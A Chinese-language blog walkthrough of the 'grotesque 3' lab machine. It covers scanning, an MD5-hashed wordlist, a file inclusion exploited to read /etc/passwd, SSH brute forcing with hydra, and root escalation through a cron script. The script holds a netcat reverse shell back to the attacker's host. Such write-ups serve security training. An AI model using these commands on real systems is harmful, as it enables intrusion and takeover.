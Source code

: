 ```yaml
---
layout: post
title: grotesque 3
subtitle: grotesque 3
date: 2025-07-18 16:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 信息搜集

IP扫描，发现主机 `192.168.163.142`

![image.png](https://img.ghostliner.top/mCSICN.png)

端口扫描，发现80、22端口

```shell
nmap -A -p- 192.168.163.142
```

![image.png](https://img.ghostliner.top/8D8uXo.png)

目录扫描，但未扫到任何东西

```shell
dirsearch -u http://192.168.163.142 -e* -i 200
nikto -h 192.168.163.142
dirb http://192.168.163.142
```

访问网站，发现链接

![image.png](https://img.ghostliner.top/8pFKYf.png)

访问链接： http://192.168.163.142/atlasg.jpg 发现一张图片

从图片中找有字符的地方

![image.png](https://img.ghostliner.top/cPcVDy.png)

有 `M` ，`D` 和5个 `X`，暗示MD5

使用atlasg、atlasg.jpg 和图片文件的MD5值尝试访问失败

### 目录爆破

生成MD5的目录字典

```shell
for i in $(cat /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt); do echo $i | md5sum >> md5.txt; done
```

vim删除多余字符

```
:%s/  -//g
```

```shell
dirsearch -w md5.txt -u http://192.168.163.142 -f php
```

![image.png](https://img.ghostliner.top/QMVN2d.png)

http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php

```shell
wfuzz -w /usr/share/wordlists/rockyou.txt -u http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd --hw 0
```

发现文件包含漏洞

![image.png](https://img.ghostliner.top/LMjc9X.png)

发现用户：`freddie`

![image.png](https://img.ghostliner.top/qviORT.png)

尝试日志注入，无法获取日志文件，尝试爆破ssh

### SSH爆破

使用之前生成的MD5字典进行爆破

```shell
hydra -l freddie -P md5.txt ssh://192.168.163.142
```

![image.png](https://img.ghostliner.top/F8whFB.png)

获得密码：`61a4e3e60c063d1e472dd780f64e6cad`

ssh登陆成功，发现日志文件目录权限高，无法访问

![image.png](https://img.ghostliner.top/GLqBEW.png)

查看家目录

![image.png](https://img.ghostliner.top/3cRIWy.png)

查看flag文件

![image.png](https://img.ghostliner.top/D60gui.png)

查看端口服务，发现139、445

```shell
ss -tnlp
```

![image.png](https://img.ghostliner.top/D6Kbdx.png)

使用 smbclient 访问 SMB 服务中的文件共享

```shell
smbclient -L 127.0.0.1
```

发现目录 `grotesque`

![image.png](https://img.ghostliner.top/aVknwb.png)

查看，无内容

![image.png](https://img.ghostliner.top/caTICs.png)

下载pspy64 [DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) 监控Linux进程和定时任务

上传到目标机

![image.png](https://img.ghostliner.top/AIFk9w.png)

```shell
chmod +x pspy64
./pspy64
```

发现每分钟以root身份执行`/smbshare`目录下脚本

![image.png](https://img.ghostliner.top/dwYK0C.png)

### root提权

添加自定义脚本，反弹shell

```shell
echo 'nc -nv 192.168.163.132 4444 -e /bin/bash' > shell.sh
```

直接写入无权限，利用smb传入脚本文件

```shell
smbclient //127.0.0.1/grotesque
put shell.sh
```

![image.png](https://img.ghostliner.top/k86oxf.png)

kali开启监听 `nc -lvp 4444`

连接成功获取到flag

![image.png](https://img.ghostliner.top/P5Gqum.png)
